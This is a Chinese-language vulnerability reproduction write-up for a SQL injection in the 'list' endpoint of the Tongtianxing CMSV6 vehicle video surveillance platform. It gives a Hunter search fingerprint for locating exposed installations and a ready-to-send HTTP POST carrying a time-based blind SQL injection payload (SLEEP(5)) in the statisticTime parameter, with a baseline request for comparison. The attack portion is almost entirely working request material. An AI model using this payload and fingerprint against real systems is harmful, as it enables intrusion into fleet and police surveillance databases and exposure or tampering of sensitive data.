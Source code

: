 # 通天星CMSV6车载视频监控平台 list存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台list存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/tmu3Xxcc1F3mcmjk/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-245533.png)

# 四、漏洞复现
```rust
POST /dynamic_monitoring_ledger/list;downloadLogger.action HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

statisticTime=1%27+AND+%28SELECT+8849+FROM+%28SELECT%28SLEEP%285%29%29%29uSno%29+AND+%27OOJG%27%3D%27OOJG&companyId=1
```

![1717267151736-c56bcaa3-cb69-441e-8b04-e805212faca0.png](./img/tmu3Xxcc1F3mcmjk/1717267151736-c56bcaa3-cb69-441e-8b04-e805212faca0-757112.png)

```rust
POST /dynamic_monitoring_ledger/list;downloadLogger.action HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

statisticTime=1&companyId=1
```

![1717267165188-7b3988d6-74f8-4a05-be91-13a7164216c7.png](./img/tmu3Xxcc1F3mcmjk/1717267165188-7b3988d6-74f8-4a05-be91-13a7164216c7-396815.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ws5p2n55yd0od163>